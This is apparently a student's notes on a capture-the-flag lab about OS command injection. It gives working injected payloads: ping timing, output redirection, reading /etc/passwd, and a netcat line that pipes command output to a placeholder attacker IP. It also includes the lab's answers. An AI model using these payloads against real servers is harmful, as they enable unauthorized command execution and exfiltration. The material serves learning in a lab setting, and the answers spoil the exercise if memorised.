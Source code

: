 Walkthrough of OS Command Injection. Demonstrate OS Command Injection and explain how to prevent it on your servers

# NOTE
- dont for get ```;```

# Blind Command Injection
Blind command injection occurs when the system call that's being made does not return the response of the call to the Document Object Model (or DOM).

![php](https://i.imgur.com/lB8diiC.png)

blind command injection occurs when the response of the HTTP request is not returned to the DOM.  You can see in the above code that the response is never returned anywhere on the page.  The only thing that gets returned is an alert that says whether a user was found on the system or not.  For the purposes of this room, I made the alert tell you what was going on, but sometimes it won't be that easy.  So here are a few ways to tell whether you have blind command injection or not.

## Ping!
Since the code is making a system call in some way, a ping will cause the page to continue loading until the command has completed.  So if you send a ping with 10 ICMP packets, the page should be loading for about 10 seconds. 

## Redirection of Output

Ping is usually enough to tell you whether you have blind command injection, but if you want to test further, you can attempt to redirect the output of a command to a file, then, using the browser, navigate to the page where the file is stored.  We all know the `>` Bash operator redirects output to a file or process so you could try redirecting the output of `id`, `whoami`, `netstat`, `ip addr` or other useful command to see if you can see the results.

## Bypassing the Blind Injection with Netcat

In the spirit of full disclosure, there is a way to bypass the blind injection with netcat.  You are able to pipe the output of a command to a nc listener.  You could do something like ```root; ls -la | nc {YOUR_IP} {PORT12**123:))}``` . This will send the output of ls -la to your netcat listener.

## Action
1. Ping the box with 10 packets.  What is this command (without IP address)?
```; ping -c <packets> <ip>```
2. Redirect the box's Linux Kernel Version to a file on the web server.  What is the Linux Kernel Version?
```; uname -r > linux.txt```. Now http://<ip>/linux.txt

more command to get kernal version? 
```console
$ uname -a
$ cat /proc/version
$ dmesg | grep Linux
```
just for fun I did: ```; cat /etc/passwd > pass.txt``` this is what I found. lol fist time os inject super cool!!
```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:109:1::/var/cache/pollinate:/bin/false
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
```

# Active Command Injection
Active command injection will return the response to the user.  It can be made visible through several HTML elements.


`passthru()` on [PHP's website](https://www.php.net/manual/en/function.passthru.php),

## Commands to try

**Linux**
- whoami
- id
- ifconfig/ip addr
- uname -a
- ps -ef

**Windows**
- whoami
- ver
- ipconfig
- tasklist
- netstat -an

4. What is the user's shell set as?
```cat /etc/passwd | grep www-data```

5. What version of Ubuntu is running?
```lsb_release -a```
6. Print out the MOTD.  What favorite beverage is shown?
read more about motd [MOTD](https://serverfault.com/questions/481146/there-are-two-motds-shown-when-i-login-to-my-server-using-ssh)
```console
$ find / -name 00-header; 2> /dev/null
/snap/core/8268/etc/update-motd.d/00-header 
/snap/core/9066/etc/update-motd.d/00-header 
/etc/update-motd.d/00-header 
```
# flag
```console
$ find / -name flag.txt; 2> /dev/null
```